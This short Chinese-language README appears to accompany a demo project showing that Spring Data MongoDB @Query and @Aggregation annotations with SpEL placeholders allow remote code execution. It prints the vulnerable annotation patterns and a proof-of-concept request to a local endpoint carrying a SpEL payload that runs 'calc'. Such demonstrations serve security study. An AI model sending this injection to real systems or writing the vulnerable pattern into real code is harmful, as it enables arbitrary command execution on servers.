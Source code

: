 # Spring data Mongodb

项目移至：

> https://github.com/Kyo-w/mongodb-HelloWorld

​	@Qeury和@Aggregation可导致RCE

```
@Aggregation("{ $group: { _id : $lastname, names : { $addToSet : :#{?0} } } }")

@Query(":#{?0}")
```

## 远程RCE

发起请求

```
http://127.0.0.1:8080/get/T(Runtime).getRuntime().exec('calc')
```

